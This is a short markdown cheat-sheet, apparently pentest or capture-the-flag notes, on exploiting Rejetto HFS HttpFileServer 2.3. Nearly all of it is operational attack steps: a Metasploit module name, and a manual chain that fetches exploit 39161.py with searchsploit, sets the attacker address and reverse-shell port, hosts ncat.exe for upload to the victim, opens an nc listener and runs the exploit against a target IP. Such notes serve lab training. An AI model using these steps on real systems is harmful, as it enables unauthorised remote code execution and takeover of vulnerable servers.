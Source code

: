 # HFS HttpFileServer 2.3 (Rejetto)
## exploitation with metasploit
* msf> use exploit/windows/http/rejetto_hfs_exec
## manual exploitation
* source: https://systemweakness.com/manual-privilege-escalation-rejetto-http-file-server-windows-rce-1148a025c15a
* download ncat.exe from github (we need to host it on the attack machine and the exploit will upload it to the victim machine)
  * https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
* $ searchsploit -m 39161.py
* $ nano 39161.py
  * change "ip_addr" to tun0
  * "localport" can be leaved at "443" or can be changed to arbitrary port (this will be the reverse shell port that nc will get connection on)
* $ python -m http.server 80
  * we need it so the exploit can upload the ncat.exe to the victim
  * if we want to change it we probably has to change the commands in the exploit as well (to the appropriate port that we gave to python)
* $ nc -nvlp 443
* $ python 39161.py 10.10.10.2 80
  * ip and port of victim machine
